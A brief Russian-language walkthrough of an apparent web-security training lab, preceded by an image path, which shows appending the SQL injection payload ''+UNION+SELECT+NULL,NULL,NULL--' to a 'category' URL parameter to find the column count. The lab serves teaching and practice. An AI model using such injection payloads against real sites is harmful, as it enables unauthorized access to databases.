 1) Открываем категорию
2) К параметру "category" добавляем '+UNION+SELECT+NULL,NULL,NULL-- (Получили совпадение с искомой таблицей)  (Добавив '+UNION+SELECT+NULL--  или '+UNION+SELECT+NULL,NULL-- , результат будет отрицательным)
3) Лабаратория выполнена
